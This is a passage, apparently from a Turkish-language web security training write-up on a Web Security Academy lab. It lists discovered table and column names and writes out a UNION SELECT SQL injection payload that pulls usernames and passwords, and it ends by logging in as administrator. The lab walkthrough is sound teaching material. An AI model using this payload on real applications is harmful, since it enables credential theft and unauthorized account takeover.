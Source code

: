 ```html
gelen sonuçları not ediyoruz:
Tablo Adı: 
users_nmvfut

Kolon Adları:
password_ugssmd
email
username_obdlzx
```

Bu bilgiler ışığında yeni SQL sorgumuzu hazırlayalım. 

```html
mdisec' UNION SELECT null, concat(username_obdlzx,':::ilker:::',password_ugssmd) FROM users_nmvfut -- adfsf
```

Bu şekilde sorgumuzu SQL Injection güvenlik açığı sayesinde web uygulamasında çalıştırdığımızda istediğimiz sonuçları artık alabiliyoruz.

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2025.png)

Ve son olarak administrator hesabıyla giriş yaptığımızda lab çözülmüş oluyor…

![Untitled](Web%20Security%200x0A%20Web%20Security%20Academy'den%20Devam%20E%20feb066966c2e47eba3a600afa27d1032/Untitled%2026.png)
